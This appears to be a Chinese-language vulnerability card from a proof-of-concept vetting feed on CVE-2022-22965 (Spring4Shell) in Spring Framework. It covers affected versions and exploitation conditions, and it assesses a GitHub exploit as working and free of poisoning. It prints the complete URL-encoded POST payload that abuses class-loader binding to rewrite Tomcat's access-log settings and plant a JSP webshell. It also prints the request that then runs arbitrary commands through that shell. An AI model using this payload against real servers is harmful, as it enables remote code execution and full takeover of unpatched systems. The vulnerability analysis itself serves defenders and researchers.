 ## CVE-2022-22965 Spring4Shell RCE

**漏洞编号:** CVE-2022-22965

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Spring Framework

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** Spring Framework versions 5.3.X prior to 5.3.18+, 5.2.x prior to 5.2.20+ and all old and unsupported versions

**利用条件:** JDK 9+, Tomcat as WAR deployment, Spring MVC或Spring WebFlux

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2022-22965，又名Spring4Shell，是一个Spring Framework的远程代码执行漏洞。攻击者可以通过操纵classloader来写入webshell或者执行任意代码。根据漏洞库信息和搜索结果，该漏洞的利用条件较为苛刻，需要JDK 9+，并且应用必须部署为WAR包在Tomcat上运行。如果应用以Spring Boot executable jar（默认方式）部署，则不易受到该漏洞影响。

**有效性分析：**
提供的POC代码是有效的。POC利用了Spring Data Binding的特性，通过修改class.module.classLoader.resources.context.parent.pipeline.first的值，修改了Tomcat的access log pattern，从而写入webshell。通过webshell的`Tomcat=S&cmd=`参数可以执行任意命令。

**投毒风险分析：**
提供的POC代码本身没有明显的投毒行为。它直接利用了漏洞来执行命令，没有进行任何尝试来修改或破坏目标系统上的其他文件或组件。代码目的明确，就是利用漏洞执行给定的命令，没有发现其他恶意意图的代码，因此投毒风险可以评估为0%。

**利用方式：**
利用方式主要是通过发送特制的HTTP POST请求，请求体中包含恶意的参数，这些参数用于修改Tomcat的access log pattern。具体步骤如下：

1.  发送包含恶意参数的POST请求，例如：
    ```
    class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22S%22.equals(request.getParameter(%22Tomcat%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=Shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
    ```
2.  上述请求会在`webapps/ROOT`目录下创建一个名为`Shell.jsp`的webshell。 webshell内容是读取`cmd`参数并执行。
3.  访问webshell，并通过`Tomcat=S&cmd=`参数执行任意命令，例如：
    ```
    http://target.com/Shell.jsp?Tomcat=S&cmd=whoami
    ```

攻击者可以利用这个webshell执行任意系统命令，从而控制服务器。

**项目地址:** [xsxtw/SpringFramework_CVE-2022-22965_RCE](https://github.com/xsxtw/SpringFramework_CVE-2022-22965_RCE)

**漏洞详情:** [CVE-2022-22965](https://nvd.nist.gov/vuln/detail/CVE-2022-22965)